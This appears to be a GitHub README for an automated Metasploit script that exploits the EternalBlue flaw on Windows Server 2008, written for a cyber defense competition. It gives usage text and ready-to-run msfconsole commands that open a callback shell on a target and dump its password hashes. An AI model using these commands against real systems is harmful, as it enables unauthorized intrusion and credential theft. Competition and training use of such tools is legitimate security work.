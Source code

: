 # Eternal Blue
This was one of the automated exploit scripts I developed for the [cyber force competition](https://cyberforcecompetition.com/). It's only been tested on Windows Server 2008.
 
```
Description:
  This RC file can be used to exploit EternalBlue and dump password hashes.

Usage:
  msfconsole -r [rc_path] [rhost] [lhost] [lport]

Arguments:
  rc_path      - Full path to the RC script
  rhost        - Remote target IP Address
  lhost        - Local IP Address
  lport        - Port to open locally for callback

Examples:
  Get the help screen:
    msfconsole -r eternal_blue.rc help
  Attempt to pwn 10.0.0.8 from 10.0.0.130 over port 4444:
    msfconsole -r eternal_blue.rc 10.0.0.8 10.0.0.130 4444

Author:
  Jayson Grace (jayson.e.grace@gmail.com)
```

Pop shell on 10.0.0.8 from 10.0.0.130 and dump the password hashes.
```bash
msfconsole -r eternal_blue.rc 10.0.0.8 10.0.0.130 4444
```

